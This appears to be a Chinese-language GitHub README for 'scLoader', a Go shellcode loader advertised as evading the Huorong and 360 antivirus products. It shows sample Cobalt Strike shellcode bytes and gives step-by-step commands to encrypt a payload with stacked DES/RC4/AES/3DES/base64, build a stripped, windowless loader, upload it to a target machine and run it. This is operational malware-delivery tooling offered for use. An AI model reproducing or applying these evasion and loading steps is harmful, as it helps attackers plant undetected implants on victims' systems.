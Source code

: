 # scLoader: shellcode 加载器

## 效果
目前测试了火绒和360，静态动态都能免杀，静态VT检测效果一般

## 特点
- 基于Syscall进行免杀shellcode加载
- 已经实现的加密/编码：des,rc4,aes,3des,base64
- 在已实现的加密方式中，加密顺序可以随意指定

## 支持shellcode格式
目前支持CS中C语言格式和Raw格式的shellcode

**C语言字符串格式shellcode**
```
/* length: 891 bytes */
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52......";
```

**纯十六进制格式的shellcodes**
```
fc48 83e4 f0e8 c800 0000 4151 4150 5251
5648 31d2 6548 8b52 6048 8b52 1848 8b52
2048 8b72 5048 0fb7 4a4a 4d31 c948 31c0
ac3c 617c 022c 2041 c1c9 0d41 01c1 e2ed
```

## 使用
1、编译sparrow.go(不想编译直接`go run`也行)

找到项目中builder/sparrow.go文件，然后如图编译即可

![](https://github.com/Peithon/scLoader/blob/master/imgs/build-sparrow.png)

2、使用sparrow.exe加密shellcode

在CS中生成需要格式的shellcode，将CS生成的原始.bin文件或.c文件放在sparrow.exe同一目录，使用命令

```
#.bin文件
.\sparrow.exe -e des,rc4,aes,3des,base64 -f .\payload.bin
#.c文件
.\sparrow.exe -e des,rc4,aes,3des,base64 -f .\payload.c
```
***注意：-e参数必须使用base64编码结尾***

![](https://github.com/Peithon/scLoader/blob/master/imgs/shellcode-encode.png)

3、将加密之后的shellcode填充到loader.go中的shellcode变量

4、按照加密顺序填充到loader.go中的encodestr变量中

![](https://github.com/Peithon/scLoader/blob/master/imgs/add-info.png)

5、编译loader.go文件
```
go build -trimpath -ldflags="-w -s -H=windowsgui" loader.go
```

6、上传到目标机器，使用`loader.exe -fuck`命令加载shellcode


